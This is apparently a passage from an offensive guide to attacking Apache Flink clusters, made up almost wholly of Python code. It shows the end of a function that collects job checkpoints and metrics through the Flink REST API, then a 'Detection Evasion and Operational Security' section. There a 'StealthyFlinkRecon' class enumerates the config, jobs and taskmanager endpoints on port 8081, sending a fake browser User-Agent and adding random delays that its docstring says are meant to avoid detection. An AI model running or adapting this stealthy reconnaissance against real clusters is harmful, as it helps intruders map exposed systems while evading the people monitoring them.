 ```python
        checkpoints = requests.get(f"{base_url}/jobs/{job_id}/checkpoints").json()
        state_data[job_id]["checkpoints"] = checkpoints
        
        # Job metrics
        metrics = requests.get(f"{base_url}/jobs/{job_id}/metrics").json()
        state_data[job_id]["metrics"] = metrics
    
    return state_data
```

---

## Detection Evasion and Operational Security

### Request Rate Limiting

```python
class StealthyFlinkRecon:
    def __init__(self, target_host, delay=2):
        self.target = target_host
        self.delay = delay
        self.session = requests.Session()
        # Randomize User-Agent
        self.session.headers.update({
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36'
        })
    
    def delayed_request(self, endpoint):
        """Make request with delay to avoid detection"""
        time.sleep(random.uniform(self.delay, self.delay * 2))
        return self.session.get(f"http://{self.target}:8081{endpoint}")
    
    def gradual_enumeration(self):
        """Gradually enumerate Flink resources"""
        endpoints = [
            "/overview",
            "/config", 
            "/jobs",
            "/taskmanagers"
        ]
        
        results = {}
        for endpoint in endpoints:
            try:
                response = self.delayed_request(endpoint)
                if response.status_code == 200:
                    results[endpoint] = response.json()
                time.sleep(random.uniform(5, 15))  # Longer delay between categories
            except Exception as e:
                print(f"Error with {endpoint}: {e}")
        
        return results
```
